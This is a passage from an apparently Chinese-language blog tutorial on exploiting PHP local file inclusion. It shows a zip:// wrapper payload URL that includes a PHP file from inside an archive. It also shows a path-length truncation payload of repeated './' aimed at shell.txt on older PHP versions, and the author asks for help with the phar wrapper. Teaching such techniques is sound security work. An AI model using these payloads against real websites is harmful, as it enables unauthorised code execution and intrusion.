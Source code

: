 其中test.php内容为：

```
<?php phpinfo(); ?>
```



利用zip协议，注意要指定绝对路径

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\chybeta.zip%23chybeta
```



则拼接后为：zip://D:\phpStudy\WWW\fileinclude\chybeta.zip#chybeta/test/test.php

[![img](Untitled.assets/22.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/22.png?raw=true)

能成功包含。

在利用phar协议的时候有些问题。哪位能指教一下？
[![img](Untitled.assets/23.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/23.png?raw=true)

### 长度截断

利用条件： php版本 < php 5.2.8

目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`./`

```
index.php?file=././././。。。省略。。。././shell.txt
```


